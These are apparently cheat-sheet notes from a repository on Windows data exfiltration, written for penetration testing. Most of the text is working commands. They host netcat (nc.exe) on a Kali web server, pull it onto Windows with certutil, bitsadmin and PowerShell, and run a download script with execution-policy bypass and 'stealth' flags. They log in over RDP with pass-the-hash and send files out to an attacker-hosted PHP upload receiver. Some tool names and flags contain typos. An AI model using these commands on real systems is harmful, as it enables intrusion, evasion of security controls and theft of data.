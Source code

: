 # Windows Data Exfiltration

* Use kali linux NC windows binary
* Locate file transfer utilities on Windows systems
* Download a file using certutil
* Download a file using bitsadmin
* Download a file with PowerShell
* Upload a file with PowerShell

## Use Kali Linux NC windows-binary

```bash
sudo apt install windows-binaries
ll /usr/share/windows-binaries/
windows-binaries -h
```

```bash
sudo cp /usr/share/windows-binaries/nc.exe /var/www/html/
```

## FreeRSD - A Free Remote Desktop Protocol

* +clipboard
* +auto-reconnect
* /dynamic-resolution
* /v: server
* /pth: NTLM hash
* /kbd-list

```bash
xfreerdf /kdb-list
xfreerdp +clipboard +auto-reconnect /u:user /p:password /v:remote-ip
xfreerdp /u:user /v:ip /p:password /kbd:0x00010407 /dynamic-resolution +auto-reconnect +clipboard
xfreerdp /u:user /v:ip /pth:hidden /kbd:0x00010407 /dynamic-resolution +auto-reconnect +clipboard
 
```

## Download a file using certutil

* We can also use this to download remote files.
* But: Certutil is blocked by Windows Security Antivirus rules.
* -urlcache
* -f file url

```powershell
C:\Users\user> cd Downloads
certutil -urlcache -split -f http://kali-ip/nc.exe nc.exe
```

## Downlaod a file using bitsadmin

```powershell
bitsadmin /create DownloadJob
bitsadmin /addfile DownloadJob http://kali-ip/nc.exe C:\Users\user\Downloads\nc.exe
bitsadmin /resume DownloadJob
bitsadmin /complete DownloadJob
bitsadmin /info DownloadJob /verbose
```

## Downlaod a file using powershell

```powershell
(New-Object Net.WebClient).DownloadFile('http://remote-ip/nc.exe', 'nc.exe')

wget http://remote-ip/nc.exe -o nc.exe

Invoke-WebRequest -Uri 'http://remote-ip/nc.exe' -OutFile 'nc.exe'
Invoke-WebRequest -Uri 'http://remote-ip/nc.exe' -OutFile 'nc.exe' -proxy "http://proxy.contoso.com:8080
```

## Downlaod a file using powershell script with stealth mode

* Bypass security policy and default profiel
* -ExecutionPolicy Bypass
* -NoProfile

* Stealth mode
* -NonInteractive
* -NoLogo

```powershell
type .\wget.ps1
$webclient = New-Object System.Net.WebClient
$url = "http://remote-ip/nc.exe"
$dst = "nc.exe"
$webclient.DownloadFile($url,$dst)

powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File .\wget.ps1
```

## Upload File with powershell

* '$' must be escaped in bash scripts
* \$

```bash
cat psupload.php
<?php 
$uploaddir = '/var/www/html/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
if(move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile))
    echo "Upload done.";
else
    echo "Upload error!";
?>
```

```powershell
powershell $response=(New-Object Net.WebClient).UploadFile('http://remote-ip/psupload.php', '.\Upload.txt'); [Text.Encoding]::UTF8.GetString($response)
```
